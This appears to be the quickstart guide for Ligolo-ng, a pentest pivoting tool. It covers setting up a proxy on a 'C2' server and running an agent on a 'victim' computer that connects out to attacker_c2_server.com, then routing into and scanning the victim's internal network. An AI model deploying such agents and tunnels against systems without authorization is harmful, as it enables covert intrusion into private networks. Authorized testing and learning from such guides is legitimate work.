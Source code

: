 #ligolo-ng

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng/wiki/Quickstart)

## Quickstart

## Prerequisites

### Linux

When using Linux, you need to create a tun interface on the Proxy Server (C2):

```shell
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

> On **Ligolo-ng >= v0.6**, you can now use the `interface_create` command to create a new interface! No need to use ip tuntap!

```
ligolo-ng » interface_create --name "evil-cha"
INFO[3185] Creating a new "evil-cha" interface...       
INFO[3185] Interface created!
```

### Windows

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

## TLS Options

#### Using Let's Encrypt Autocert

When using the `-autocert` option, the proxy will automatically request a certificate (using Let's Encrypt) for _attacker\_c2\_server.com_ when an agent connects.

> Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval

#### Using your own TLS certificates

If you want to use your own certificates for the proxy server, you can use the `-certfile` and `-keyfile` parameters.

#### Automatic self-signed certificates

The _proxy/relay_ can automatically generate self-signed TLS certificates using the `-selfcert` option.

_**Validating self-signed certificates fingerprints (recommended)**_

When running selfcert, you can run the `certificate_fingerprint` command to print the currently used certificate fingerprint.

```
ligolo-ng » certificate_fingerprint 
INFO[0203] TLS Certificate fingerprint for ligolo is: D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC 
```

On the agent, you can then connect using the fingerprint provided by the Ligolo-ng proxy.

```
ligolo-agent -connect 127.0.0.1:11601 -v -accept-fingerprint D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC                                               nchatelain@nworkstation
INFO[0000] Connection established                        addr="127.0.0.1:11601"
```

> By default, the "ligolo" domain name is used for TLS Certificate generation. You can change the domain by using the -selfcert-domain \[domain\] option at startup.

_**Ignoring all certificate verification (for lab/debugging)**_

To ignore all security mechanisms, the `-ignore-cert` option can be used with the _agent_.

> Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.

## Using Ligolo-ng

## Start the Ligolo-ng proxy server

Start the _proxy_ server on your Command and Control (C2) server (default port 11601):

```shell
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates
$ ./proxy -selfcert # Use self-signed certificates
```

### Start the agent

Start the _agent_ on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```

> If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the _proxy_ server.

```
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the `session` command to select the _agent_.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

### Start the tunneling

Start the tunnel on the proxy, using the `evil-cha` interface name.

```
[Agent : nchatelain@nworkstation] » tunnel_start --tun evil-cha
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```

> On macOS, you need to specify a utun\[0-9\] device, like utun4.

### Setup routing

First, display the network configuration of the agent using the `ifconfig` command:

```
[Agent : nchatelain@nworkstation] » ifconfig 
[...]
┌─────────────────────────────────────────────┐
│ Interface 3                                 │
├──────────────┬──────────────────────────────┤
│ Name         │ wlp3s0                       │
│ Hardware MAC │ de:ad:be:ef:ca:fe            │
│ MTU          │ 1500                         │
│ Flags        │ up|broadcast|multicast       │
│ IPv4 Address │ 192.168.0.30/24             │
└──────────────┴──────────────────────────────┘
```

Then setup routes accordingly.

#### Linux Routing

_Using the terminal:_

```shell
$ sudo ip route add 192.168.0.0/24 dev ligolo
```

_Or using the Ligolo-ng (>= 0.6) cli:_

```
ligolo-ng » interface_add_route --name evil-cha --route 192.168.2.0/24
INFO[3206] Route created.                               
```

#### Windows Routing

```
&gt; netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo
   
&gt; route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

## macOS (Darwin) Routing

```
$ sudo ifconfig utun4 alias [random_ip] 255.255.255.0
$ sudo route add -net 192.168.2.0/24 -interface utun4
```

You can now access the _192.168.0.0/24_ _agent_ network from the _proxy_ server.

```shell
$ nmap 192.168.0.0/24 -v -sV -n
[...]
$ rdesktop 192.168.0.123
[...]
```